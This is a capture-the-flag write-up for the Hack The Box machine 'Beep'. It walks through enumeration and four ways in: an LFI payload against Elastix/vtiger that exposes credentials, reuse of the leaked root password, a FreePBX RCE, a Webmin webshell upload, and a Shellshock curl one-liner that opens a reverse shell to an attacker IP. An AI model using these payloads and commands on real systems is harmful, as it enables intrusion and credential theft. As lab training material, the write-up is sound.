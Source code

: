```yaml
---
cover: https://photos.squarezero.dev/file/abir-images/Beep/logo.png
date: 2023-02-18 09:45:47+07:00
machine_author:
  link: https://app.hackthebox.com/users/1
  name: ch4p
modified: 2023-02-18 09:45:47+07:00
tags:
- Shellshock
- Beep
- LFI
- RCE
- Hackthebox
- Writeup
title: Beep
---
```


![](https://photos.squarezero.dev/file/abir-images/htbasset/banner.png)



Beep has a very large list of running services, which can make it a bit challenging to find the correct entry method. This machine can be overwhelming for some as there are many potential attack vectors. Luckily, there are several methods available for gaining access.

### Difficulty:

`Medium`


# Fixes
Due to this machine's age and the outdated TLS version, issues emerge.
Before we move on, let's solve a couple of them.

### Firefox

![](https://photos.squarezero.dev/file/abir-images/Beep/21.png)

### Curl & gobuster 
-k, --insecure           Allow insecure server connections




# Enumeration

I begin as usual with a Nmap scan.

`nmap -sC -sV -A -oG beep beep.htb`

![](https://photos.squarezero.dev/file/abir-images/Beep/1.png)

Multiple ports are open. 

|Ports|Service
|22| ssh OpenSSH 4.3 (protocol 2.0)
|25| smtp
|80| Apache httpd 2.2.3
|110| pop3
|111| rpcbind
|143| imap
|443| Apache httpd 2.2.3
|3306| mysql
|10000| http MiniServ 1.570 (Webmin httpd)

Next, I used [Gobuster]() to find interesting directories.

`gobuster dir -u https://beep.htb -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -k`

![](https://photos.squarezero.dev/file/abir-images/Beep/2.png)


# Foothold + Privesc

## **Method 1 → LFI**

After visiting the website I have found a login page that use [Elastix]().

![](https://photos.squarezero.dev/file/abir-images/Beep/3.png)

I looked for possible exploits and found an LFI vulnerability. 

![](https://photos.squarezero.dev/file/abir-images/Beep/4.png)

You can find the full explanation in [ExploitDB](https://www.exploit-db.com/exploits/37637)

Payload →
`/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action`

After using the payload I found passwords for other portals.

![](https://photos.squarezero.dev/file/abir-images/Beep/5.png)

Next I tried to use ssh with following credential to get access.

`root:jEhdIekWmdjE`

![](https://photos.squarezero.dev/file/abir-images/Beep/6.png)

## **Method 2 → Remote Code Execution **

When visiting `/admin` , It asks for password. If cancel is pressed it took me to [FreePBX]() page. 

![](https://photos.squarezero.dev/file/abir-images/Beep/7.png)

After logging in we get admin dashboard access.

`admin:jEhdIekWmdjE`

![](https://photos.squarezero.dev/file/abir-images/Beep/8.png)

After researching for a little bit I found this vulnerability in [ExploitDB](https://www.exploit-db.com/exploits/18650)

In order for the exploit to work it requires a valid extension.

We can use [svmap]() to find SIP devices in the network and [svwar]() to bruteforce for valid extension.

We can use `INVITE` option to reveal all valid extensions.

![](https://photos.squarezero.dev/file/abir-images/Beep/9.png)

![](https://photos.squarezero.dev/file/abir-images/Beep/10.png)

Afternatively I found the extension in the recordings dashboard as well.

![](https://photos.squarezero.dev/file/abir-images/Beep/11.png)

After finding the extension I found a shell in the system.

![](https://photos.squarezero.dev/file/abir-images/Beep/12.png)

## **Method 3 → FileUpload Code Execution**

In port 10000 I found [Webmin]() login page. I logged in with valid credentials and found the admin dashboard.

`root:jEhdIekWmdjE`

![](https://photos.squarezero.dev/file/abir-images/Beep/13.png)

![](https://photos.squarezero.dev/file/abir-images/Beep/14.png)

There was already a commandshell option in the site. 

![](https://photos.squarezero.dev/file/abir-images/Beep/15.png)

There was also a file upload option in the website.

![](https://photos.squarezero.dev/file/abir-images/Beep/22.png)

I uploaded a webshell and after visiting the directory I can execute commands.

![](https://photos.squarezero.dev/file/abir-images/Beep/16.png)

![](https://photos.squarezero.dev/file/abir-images/Beep/17.png)

Then I got a revershell using the webshell I spawned. 

![](https://photos.squarezero.dev/file/abir-images/Beep/18.png)

## **Method 4 → ShellShock**

While exploring the website I found ![cgi-bin]](). 
This reminded me of [ShellShock]() vulnerability.

![](https://photos.squarezero.dev/file/abir-images/Beep/19.png)

I got a revershell using the vulnerability.

`curl -ks -A "() { :;}; echo Content-Type: text/html; /bin/bash -i >& /dev/tcp/10.10.14.21/9999 0>&1;" https://beep.htb:10000`

![](https://photos.squarezero.dev/file/abir-images/Beep/20.png)

